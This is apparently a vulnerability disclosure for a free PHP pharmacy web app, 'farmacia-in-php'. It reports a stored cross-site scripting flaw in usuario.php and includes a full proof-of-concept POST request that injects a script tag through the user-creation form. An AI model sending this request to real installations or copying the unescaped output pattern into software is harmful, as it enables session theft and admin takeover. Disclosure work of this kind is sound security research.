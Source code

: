 # farmacia-in-php has Based Cross Site Scripting vulnerability in usuario.php

## supplier 
https://code-projects.org/farmacia-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
usuario.php
## describe
There is an  Cross Site Scripting vulnerability in farmacia-in-php in usuario.php,  Control parameter: **$usuarios['nome']**

Malicious attackers can use this cross-site scripting vulnerability to conduct phishing attacks and obtain administrator login information and permissions.

## code analysis

echo $usuarios['nome'] without filtering，And $usuarios['nome'] is obtained from the database.This causes a stored cross-site scripting vulnerability

![image-20241119025357928](https://github.com/user-attachments/assets/77061e72-9eb9-4d12-a40f-f29f569bee61)



## POC

Inset the Scripting  into databases.

```
POST /adicionar-usuario.php HTTP/1.1
Host: farmacia
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------21880198377929761082162526974
Content-Length: 640
Origin: http://farmacia
Connection: close
Referer: http://farmacia/adicionar-usuario.php
Cookie: PHPSESSID=ff7cs1m7aghlhghsunaicnio6h
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------21880198377929761082162526974
Content-Disposition: form-data; name="nome"

<script>alert(1);</script>
-----------------------------21880198377929761082162526974
Content-Disposition: form-data; name="cargo"

1
-----------------------------21880198377929761082162526974
Content-Disposition: form-data; name="usuario"

1
-----------------------------21880198377929761082162526974
Content-Disposition: form-data; name="senha"

1
-----------------------------21880198377929761082162526974
Content-Disposition: form-data; name="acao"


-----------------------------21880198377929761082162526974--
 
```

**Result**

Visit this URL to trigger the cross-site scripting vulnerability.

```
http://farmacia/usuario.php
```

![image-20241119025234290](https://github.com/user-attachments/assets/fe325e73-163a-4a37-b91a-e9141029ced3)